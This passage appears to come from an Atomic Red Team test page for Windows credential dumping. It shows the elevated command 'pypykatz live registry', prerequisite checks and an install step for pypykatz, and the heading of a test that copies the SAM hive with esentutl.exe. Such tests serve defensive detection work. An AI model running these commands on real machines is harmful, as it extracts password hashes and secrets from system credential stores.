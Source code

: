 



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pypykatz live registry
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```cmd
py -3 --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "Python 3 must be installed manually"
```
##### Description: Computer must have pip installed
##### Check Prereq Commands:
```cmd
py -3 -m pip --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "PIP must be installed manually"
```
##### Description: pypykatz must be installed and part of PATH
##### Check Prereq Commands:
```cmd
pypykatz -h >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
pip install pypykatz
```




<br/>
<br/>

## Atomic Test #3 - esentutl.exe SAM copy
Copy the SAM hive using the esentutl.exe utility
This can also be used to copy other files and hives like SYSTEM, NTUSER.dat etc.
